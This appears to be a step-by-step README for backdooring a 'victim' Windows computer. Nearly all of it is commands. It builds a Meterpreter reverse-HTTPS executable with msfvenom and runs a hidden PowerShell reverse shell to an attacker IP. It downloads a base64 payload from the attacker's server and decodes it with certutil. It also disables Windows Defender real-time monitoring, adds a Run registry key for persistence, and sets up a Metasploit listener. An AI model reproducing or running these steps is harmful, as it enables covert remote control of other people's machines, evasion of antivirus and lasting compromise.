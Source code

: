 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=192.x.x.x lport=1337  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp 1337
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('192.x.x.x', 1337);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` powershell
mkdir C:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` powershell 
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://192.x.x.x:8000/file-encode.txt") > file.txt
```
## Disable Windows Defender
``` powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Ddecode Base64

``` powershell
certutil -decode C:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
``` msfconsole
use exploit/multi/handler
``` 
- Set Payload
``` msfconsole
set payload windows/meterpreter/reverse_https
```
- Set lhost
``` msfconsole
set lhost 192.x.x.x 
```
- Set lport
``` msfconsole
set lport 1337
```
- Set ExitOnSession
```
set ExitOnSession false
```
- Exploit
``` msfconsole
exploit -j
```
## Unlock Backdoor
```powershell
Unblock-File -Path C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```powershell
./decode.exe
```
